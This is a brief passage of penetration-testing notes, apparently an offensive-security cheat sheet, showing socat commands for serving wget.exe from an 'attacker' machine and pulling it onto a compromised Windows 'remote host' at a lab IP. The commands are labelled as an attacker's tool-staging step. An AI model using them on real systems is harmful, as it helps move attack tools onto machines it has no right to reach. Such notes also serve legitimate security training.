 # 1) Share file from attacker
```sh
FILE_TO_SHARE=/usr/share/windows-resources/binaries/wget.exe
LPORT=4444
sudo socat TCP4-LISTEN:$LPORT,fork file:$FILE_TO_SHARE
```

# 2) Downloading the file from remote host
```bat
set RHOST=10.11.0.22
set RPORT=4444
socat TCP4:%RHOST%:%RPORT% file:wget.exe,create
```
